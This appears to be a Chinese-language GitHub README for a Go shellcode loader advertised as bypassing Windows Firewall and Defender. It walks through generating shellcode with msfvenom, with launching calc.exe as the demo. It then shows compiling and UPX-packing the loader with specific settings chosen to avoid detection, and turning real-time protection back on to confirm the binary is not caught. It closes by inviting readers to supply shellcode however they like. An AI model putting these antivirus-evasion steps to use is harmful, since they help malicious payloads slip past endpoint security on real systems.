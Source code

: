 # goshellcode
golang run shellcode bypasses Windows Firewall and Defender

# 模拟打开windows的计算器

1.生成shellcode  
打开kali，打开一个 terminal，输入  
msfvenom -p windows/x64/exec CMD="calc.exe" -f hex -o calc.txt  
会在/home/kali/目录下生成calc.txt文件，里面是16进制shellcode  
![alt text](msf.png)

2.编译代码  
#window安全中心，先关闭实时保护，不然编译golang代码不通过，提示不安全  
go build -ldflags="-w -s" -o sc.exe main.go && upx -8 sc.exe  
go build -ldflags="-H windowsgui -w -s" -o sc.exe main.go && upx -8 sc.exe （无边框）  
注意，这里upx压缩，不能用9，不然必被拦截（灵魂细节）
![alt text](def.png)

3.测试shellcode是否能过 Defender  
再次开启indow安全中心 实时保护，cmd下运行sc.exe 成功弹出计算器
![alt text](calc.png)

4.至于shellcode以什么样的方式获取，可以尽情发挥了...
